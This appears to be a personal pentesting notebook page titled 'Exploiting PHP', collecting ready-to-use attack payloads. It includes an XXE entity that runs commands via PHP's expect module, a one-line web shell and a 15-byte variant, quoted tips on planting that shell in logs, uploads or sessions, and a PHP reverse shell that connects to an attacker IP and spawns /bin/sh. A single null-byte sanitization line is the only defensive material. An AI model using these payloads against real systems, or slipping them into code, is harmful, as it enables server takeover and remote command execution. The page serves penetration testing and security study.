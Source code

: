 # Exploiting PHP

* **author**:: Nathan Acks  
* **date**:: 2022-07-11

## RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)

## The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [The Poison Null Byte](poison-null-byte.md)

## Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

### Relevant Twitter Thread

[Did you know the shortest payload to achieve code execution in PHP is only 15 bytes long ? 🤯 If you can inject it in a page on the site you will achieve remote code execution! This is really useful in BugBounty or pentest when you have a limited input size. (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921781637365771)

[To trigger the code execution, you have to find a way to access your injected page (direct access or inclusion) and add this GET parameter to the URL: http://localhost:8000/rce.php?1=id (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921786515435520)

[This payload can be used to be reflected in many files on a web application, for example you can put it: (1) In metadata, (2) somewhere in the logs, (3) in an uploaded file that you control, (4) in your PHP session (it will be written to a file) (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921788742569987)

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.
